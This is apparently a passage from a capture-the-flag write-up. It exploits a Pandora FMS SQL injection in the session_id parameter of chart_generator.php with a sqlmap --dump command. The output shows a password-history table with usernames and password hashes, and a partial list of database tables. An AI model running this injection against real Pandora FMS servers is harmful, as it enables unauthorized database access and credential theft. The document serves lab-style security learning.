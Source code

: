 ![daniel1](./daniel1.png)

On googling , I got that this is a vulnerability of Pandora FMS where session_id is prone to SQL injection.
Using the command , I got

```noLineNumbers
sqlmap -u "localhost:8081/pandora_console/include/chart_generator.php/?session_id='' " --dump
```

Output :

```
Database: pandora
Table: tpassword_history
[2 entries]
+---------+---------+---------------------+----------------------------------+---------------------+
| id_user | id_pass | date_end            | password                         | date_begin          |
+---------+---------+---------------------+----------------------------------+---------------------+
| matt    | 1       | 0000-00-00 00:00:00 | f655f807365b6dc602b31ab3d6d43acc | 2021-06-11 17:28:54 |
| daniel  | 2       | 0000-00-00 00:00:00 | 76323c174bd49ffbbdedf678f6cc89a6 | 2021-06-17 00:11:54 |
+---------+---------+---------------------+----------------------------------+---------------------+

Database: pandora
[178 tables]
+---------------------------------------+
| taddress                              |
| taddress_agent                        |
| tagent_access                         |
| tagent_custom_data                    |
| tagent_custom_fields                  |
| tagent_custom_fields_filter           |
| tagent_module_inventory               |
| tagent_module_log                     |
| tagent_repository                     |
| tagent_secondary_group                |
| tagente                               |
| tagente_datos                         |
| tagente_datos_inc                     |
| tagente_datos_inventory               |
| tagente_datos_log4x                   |
| tagente_datos_string                  |
```